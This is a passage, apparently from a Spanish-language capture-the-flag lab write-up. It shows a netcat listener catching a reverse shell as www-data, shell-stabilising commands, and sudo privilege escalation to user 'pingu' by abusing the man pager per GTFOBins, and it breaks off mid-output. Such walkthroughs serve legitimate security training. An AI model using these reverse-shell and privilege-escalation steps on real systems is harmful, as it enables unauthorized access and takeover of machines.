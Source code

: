 ```
❯ nc -lvnp 4443
listening on [any] 4443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 39850
Linux d99fe84a5179 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 x86_64 x86_64 GNU/Linux
 07:28:44 up 22 min,  0 user,  load average: 0.54, 0.27, 0.17
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
Hacemos un tratamiento de la tty.
```bash
script /dev/null -c bash
```
CTRL+Z
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export SHELL=bash
```
## Escalada de privilegios.
Comprobamos los archivos que podemo utilizar con sudo y vemos que podemos utiliazar el binario **man** para escalar privilegios al usuario **pingu**.
```bash
sudo -l
```
```www-data@d99fe84a5179:/$ sudo -l
Matching Defaults entries for www-data on d99fe84a5179:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on d99fe84a5179:
    (pingu) NOPASSWD: /usr/bin/man
```
Vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/man/)y vemos como lanzar una shell con man.
```
man man
!/bin/sh
```
```
www-data@d99fe84a5179:/$ sudo -u pingu /usr/bin/man man
MAN(1)                        Manual pager utils                        
MAN(1)

NAME
       man - an interface to the system reference manuals

SYNOPSIS
       man [man options] [[section] page ...]
 ...
       man -k [apropos options] regexp ...
       man -K [man options] [section] term ..
.
       man -f [whatis options] page ...
```